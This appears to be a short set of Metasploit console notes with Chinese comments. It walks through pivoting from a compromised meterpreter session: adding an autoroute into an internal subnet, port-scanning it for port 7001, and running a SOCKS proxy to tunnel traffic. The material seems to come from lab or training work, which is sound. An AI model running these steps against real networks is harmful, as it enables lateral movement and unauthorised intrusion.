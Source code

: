sessions -l


### 进入 meterpreter 会话 2
sessions -i 2

### setup pivot: run autoroute
### 查看网卡列表
ipconfig

### 查看路由表
route

### 查看 ARP 表
arp


run autoroute -s 192.170.84.0/24

### 检查 Pivot 路由是否已创建成功
run autoroute -p


### portscan through pivot
search portscan
use auxiliary/scanner/portscan/tcp
show options
### 根据子网掩码推导
set RHOSTS 192.170.84.2-254
### 根据「经验」
set rport 7001
### 根据「经验」
set threads 10
### 开始扫描
run -j

### 等到扫描结果 100%
### 查看主机存活情况
hosts

### 查看发现的服务列表
services


### setup socks5 proxy 
search socks_proxy
use auxiliary/server/socks_proxy
run -j
### 查看后台任务
jobs -l
